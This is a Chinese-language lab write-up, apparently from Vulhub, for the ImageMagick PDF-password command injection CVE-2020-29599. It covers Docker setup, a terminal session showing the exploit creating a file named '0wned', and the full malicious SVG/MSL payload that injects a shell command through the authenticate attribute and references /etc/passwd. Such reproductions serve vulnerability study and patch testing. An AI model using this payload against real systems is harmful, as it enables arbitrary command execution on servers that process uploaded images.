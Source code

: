 # Imagemagick PDF密码位置命令注入漏洞 CVE-2020-29599

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 环境搭建

Vulhub直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose run im bash
```

## 漏洞复现

进入`/tmp`目录，对[poc.svg](https://github.com/vulhub/vulhub/blob/master/imagemagick/CVE-2020-29599/poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp
```

查看poc.svg文件内容：

```
root@a1b29c85d417:/tmp# strings poc.svg
```

poc.svg的内容如下：

```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

此时命令`echo $(id)> ./0wned`已执行成功：

![image-20220224131023589](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241310727.png)



